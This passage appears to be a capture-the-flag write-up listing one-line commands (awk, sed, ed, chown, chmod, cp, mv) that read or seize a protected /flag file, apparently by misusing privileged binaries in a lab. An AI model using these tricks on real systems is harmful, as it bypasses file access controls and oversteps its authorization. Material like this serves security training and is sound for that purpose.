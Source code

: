 ```bash
awk '{print}' /flag
```

Prints each line of the flag using **`awk`**.


## sed

```bash
sed '' /flag
```

Reads the file through **`sed`** with a no-op script.


## ed

```bash
ed /flag
```

Opens the file in the line editor **`ed`**. Press **`p`** to print, **`q`** to quit.


## chown

```bash
chown hacker /flag
cat /flag
```

Changes ownership so it can be read.


## chmod

```bash
chmod a+r /flag
cat /flag
```

Makes the file world-readable.


## cp

```bash
cp /flag /dev/stdout
```

Copies the flag directly to stdout.


## mv

```bash
mv /flag /home/hacker/
cat /home/hacker/flag
```
